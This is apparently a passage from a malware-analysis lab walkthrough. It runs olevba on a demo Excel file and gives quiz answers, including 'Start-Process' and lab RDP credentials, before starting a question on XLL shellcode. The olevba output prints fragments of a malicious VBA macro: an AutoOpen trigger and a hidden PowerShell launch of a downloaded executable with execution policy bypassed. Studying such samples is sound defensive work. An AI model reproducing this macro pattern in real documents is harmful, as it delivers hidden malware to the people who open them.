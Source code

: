 Code: cmd

```cmd
python .\olevba.py C:\Tools\Maldoc\Office\Demo\Samples\Excel\Demo\VBA\update-kb.xlsm
```

```
C:\Tools\Maldoc\Office\Tools\oletools>python .\olevba.py C:\Tools\Maldoc\Office\Demo\Samples\Excel\Demo\VBA\update-kb.xlsm

XLMMacroDeobfuscator: pywin32 is not installed (only is required if you want to use MS Excel)
olevba 0.60.2 on Python 3.12.4 - http://decalage.info/python/oletools
===============================================================================
FILE: C:\Tools\Maldoc\Office\Demo\Samples\Excel\Demo\VBA\update-kb.xlsm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls
in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub AutoOpen()
    Call MyMacro
End Sub

<SNIP>

' Run the downloaded executable using PowerShell
        Dim shellCmd As String
        shellCmd = "powershell -ExecutionPolicy Bypass -Command ""{hidden} '" & tempPath & "' -WindowStyle Hidden"""
        Shell "cmd.exe /c " & shellCmd, vbHide
    End If
```

Answer: `Start-Process`

# Analysis of XLL Add-ins

## Question 1

### "Use the debugger, and dump the decrypted shellcode. Perform the analysis on shellcode using speakeasy, and figure out the filename hosted on the remote server. The answer format is 852xxxxxxxxxx.exe"

After spawning the target students will establish an RDP session using the credentials `Administrator:P3n#31337@LOG`:

Code: shell

```shell
xfreerdp /v:STMIP /u:Administrator /p:'P3n#31337@LOG' /dynamic-resolution
```
